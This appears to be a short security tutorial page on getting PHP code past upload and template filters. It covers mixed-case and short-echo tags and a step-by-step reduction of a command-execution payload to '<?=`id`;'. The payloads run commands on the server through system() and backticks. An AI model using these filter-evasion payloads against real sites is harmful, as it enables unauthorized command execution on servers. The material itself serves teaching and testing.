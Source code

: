 # Simple bypass PHP

The common way of writing PHP is start with `<?` and ends with `?>`

Example:

```
<?php phpinfo();?>
```

When attempting to upload file or modify templates, often it will check if the content starts with \`\<?php\` tags

So what are the ways to bypass it?

## Method 1

Use upper and lower case

```
<?pHp system('id');?>
```

## Method 2

Replace the php starting tag with `=`

E.g.

```
<?= system('id');?>
```

## PHP Reduction Challenge: Use 8 characters to run the `id` command

Origin Command

```
<?php system('id');?>  // 21 character
```

### First reduction: PHP tags allow for being unclosed.

PHP has a feature where PHP tags are allowed to be unclosed. This means that you can use `<?php` without using `?>`, and it won't affect the execution of the PHP code.

Utilizing this feature, we can reduce the previous code as follows.

```
<?php system('id'); // 19 character
```

### Second reduction: PHP short tags.

In addition to the standard way of writing PHP tags, there are two other forms, also known as short tags.

```
<?= ?>
```

Utilizing this feature, we can reduce the previous code as follows.

```
<?= system('id'); // 17 character
```

### Third reduction: Changing the method of executing the command.

Since our goal is to successfully execute the command, is there a method that can shorten the code for executing the command? For example, is there a function that is shorter than `system`?

PHP, being a large language, of course, has functions shorter than `system` that can also execute commands.

```
eval()
popen()
exec()
....
```

These are still not short enough. The shortest of all is the backticks `` ` ` ``. PHP can execute commands using backticks.

```
system('id')  =>  `id`
```

Utilizing this feature, we can reduce the previous code as follows.

```
<?=`id`;
```

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>
